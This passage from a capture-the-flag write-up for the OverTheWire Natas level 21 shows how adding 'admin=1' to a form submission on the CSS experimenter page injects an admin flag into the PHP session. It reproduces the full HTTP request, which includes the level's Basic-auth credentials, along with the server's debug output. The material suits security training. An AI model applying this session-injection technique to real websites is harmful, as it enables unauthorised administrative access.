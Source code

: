 This means if during a request that uses submit we can add our of values to the $_SESSION variable. If we add &admin=1 we will pass the print_credentials() check on the main page.

```
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

align=center&fontsize=100%25&bgcolor=yellow&submit=Update&admin=1

HTTP/1.0 200 OK
Date: Mon, 23 Sep 2019 12:09:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1015
Content-Type: text/html; charset=UTF-8
X-Cache: MISS from localhost
Via: 1.1 localhost:3128 (squid/2.7.STABLE9)
Connection: close
```

```php
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
    [debug] => 
    [align] => center
    [fontsize] => 100%
    [bgcolor] => yellow
    [submit] => Update
    [admin] => 1
)
``` 
This means that our PHPSESSID now has admin=1
